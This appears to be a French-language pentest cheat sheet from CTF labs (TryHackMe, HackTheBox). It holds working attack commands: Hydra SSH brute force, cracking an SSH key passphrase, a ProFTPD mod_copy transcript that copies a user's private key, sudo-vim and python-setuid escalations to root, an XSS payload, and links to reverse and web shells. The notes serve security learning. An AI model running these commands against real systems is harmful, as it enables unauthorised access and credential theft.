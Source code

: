 # ![](img/pentest_25.svg) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils
### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.

### Hydra 

-l = user
<br/>-L = userlist
<br/>-p = password
<br/>-P = passwordlist

```hydra -l test -P /home/petibonum/Outils/wordlist/rockyou.txt 10.10.11.100 ssh```

user = test
<br/>wordlist = rockyou.txt

[Source](https://linuxtrack.net/viewtopic.php?id=654)

### ADB connect 

[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
### SMB

Lets inspect one of the shares :
<br/>```smbclient //<ip>/anonymous```

You can recursively download the SMB share too. Submit the username and password as nothing.
<br/>```smbget -R smb://<ip>/anonymous```

### ProFTPD module mod_copy

Exemple : [Kenobi Room](https://tryhackme.com/room/kenobi)

Prérequis : port 21

    PORT   STATE SERVICE
    21/tcp open  ftp

    ┌──(root💀2d2359796bd4)-[/mnt/kenobiNFS]
    └─# nc 10.10.253.117 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.117]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful

    mkdir /mnt/<name_folder>
    sudo mount <ip_target_machine>:/var /mnt/<name_folder>
    ls -la /mnt/<name_folder>

    cp /mnt/<name_folder>/tmp/id_rsa .
    sudo chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.253.117

[Source](http://www.proftpd.org/docs/contrib/mod_copy.html)

## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    <br/>ans : /usr/bin/ping = cap_net_raw+ep
    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
    <br/>ans : root@cap:~#
    C'est bon, on est root sur la machine.

* N°4 : TryHackMe -> []()
    <br/>```python -c 'import pty; pty.spawn("/bin/bash")'```
    
### XSS payload

Exemple :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

### Reverse Shell

[Reverse Shell examples](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### Recherche FIND spécifique

Rechercher des fichiers avec l'autorisation SUID :
<br/>```find / -user root -perm /4000 2>/dev/null```

### Outils d'encodage

[CyberChef](https://gchq.github.io/CyberChef/)

## Autres Sources

* [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
* [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
* [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
* [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
* [Reverse Shell - Synetis](https://www.synetis.com/etablir-un-reverse-shell-en-une-ligne/)

